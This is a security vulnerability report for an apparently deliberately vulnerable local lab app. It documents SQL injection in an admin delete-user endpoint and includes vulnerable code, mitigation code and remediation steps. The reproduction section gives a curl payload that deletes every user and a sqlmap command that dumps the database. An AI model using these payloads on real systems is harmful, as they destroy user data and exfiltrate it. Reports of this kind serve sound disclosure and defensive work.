


# SQLi-08 — SQL Injection in Admin Delete User Endpoint

## 1. Vulnerability Name
SQL Injection (Error-Based / Boolean-Based Blind) — `DELETE /api/admin/users/:userId`

## 2. Brief Description
The `userId` path parameter in the admin delete-user request is interpolated directly into a `DELETE` statement without parameterisation. A compromised admin session can trigger data exfiltration before the delete executes. More critically, a payload such as `1 OR 1=1` deletes **all users** in a single request.

## 3. Environment & Assumptions
- Application: SMVWA (commit SHA: `7846ecb14448da0f2bc4822d25feda988dc92ad6`)
- Testing tools: 1.10#stable, curl
- User / test context: {"email":"admin@smvwa.local","password":"Admin1234!"}
- Database: PostgreSQL 15
- Endpoint: `DELETE http://localhost:3000/api/admin/users/:userId`

## 4. Steps to Reproduce (PoC)

### Vulnerable code
`vulnerable/backend/routes/admin.js`, line ~31:
```js
await pool.query(`DELETE FROM users WHERE id = ${userId}`);
```

### Obtain admin token
```bash
ADMIN_COOKIE=$(curl -si -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@smvwa.local","password":"Admin1234!"}' \
  | grep -i "set-cookie" | grep -o 'auth=[^;]*')
```

### Mass deletion PoC
```bash
# Deletes ALL users
curl -s -X DELETE "http://localhost:3000/api/admin/users/1%20OR%201%3D1--" \
  --cookie "$ADMIN_COOKIE"
```

### sqlmap — error-based dump
```bash
sqlmap -u "http://localhost:3000/api/admin/users/1*" \
  --cookie="$ADMIN_COOKIE" \
  --method=DELETE \
  --technique=EB \
  --dbms=PostgreSQL \
  --level=3 --risk=2 \
  --dump \
  --batch
```

## 5. Evidence (Artifacts)


See: [`artifacts/sqlmap_output.txt`](artifacts/sqlmap_output.txt)

## 6. Impact (CIA + Business)
- **Confidentiality:** Data exfiltration via error-based injection before deletion.
- **Integrity:** `DELETE FROM users WHERE id = 1 OR 1=1` wipes **all users** — irreversible without a backup.
- **Availability:** Critical — loss of all user accounts causes full service outage.
- **Business impact:** Complete destruction of user data; GDPR incident; reputational damage.

## 7. Risk Rating (CVSS 3.1)
```
CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H
Score: 7.2 — HIGH
```
[CVSS Calculator](https://www.first.org/cvss/calculator/3-1#CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H)

## 8. Recommended Mitigation
```js
// BEFORE (vulnerable):
await pool.query(`DELETE FROM users WHERE id = ${userId}`);

// AFTER (safe):
const id = parseInt(req.params.id, 10);
if (isNaN(id)) return res.status(400).json({ error: 'Invalid user ID' });
await pool.query('DELETE FROM users WHERE id = $1', [id]);
```

## 9. Remediation Guidance
1. Parameterise the DELETE query.
2. Validate `userId` as an integer before querying.
3. Implement **soft-delete** (`deleted_at` timestamp) instead of physical deletion — enables data recovery.
4. Log all admin operations (IP, timestamp, payload) to a separate audit log.
5. Require additional confirmation (e.g. CSRF token + 2FA) for destructive admin actions.
